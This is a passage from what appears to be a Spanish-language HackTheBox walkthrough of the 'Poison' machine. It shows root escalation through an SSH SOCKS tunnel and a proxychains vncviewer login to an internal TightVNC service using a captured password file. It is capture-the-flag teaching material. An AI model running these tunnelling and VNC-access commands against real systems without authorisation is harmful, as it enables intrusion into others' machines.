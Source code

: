 - Vemos que se esta corriendo `tightvnc` ya que el usuario root lo esta corriendo <https://www.tightvnc.com/>.

- Aquí nos explican como auditar ese servicio <https://book.hacktricks.xyz/network-services-pentesting/pentesting-vnc>.

```bash
❯ vncviewer
```

- Nos tenemos que conectar pero el puerto solo esta abierto internamente así que haremos `port forwarding`.

```bash
❯ ssh charix@10.10.10.84 -D 1080
```

- Todo esta funcionando.

```bash
❯ lsof -i:1080
COMMAND   PID        USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
ssh     62161 miguelrega7    4u  IPv6 192426      0t0  TCP localhost:socks (LISTEN)
ssh     62161 miguelrega7    5u  IPv4 192427      0t0  TCP localhost:socks (LISTEN)
```

- Ahora le pasamos lo que nos pide la herramienta.

```bash
❯ proxychains vncviewer 127.0.0.1:5901 -passwd secret
```

- Estamos como root.

<p align="center">
<img src="/assets/hackthebox/img/machines/medium/poison/9.png">
</p>
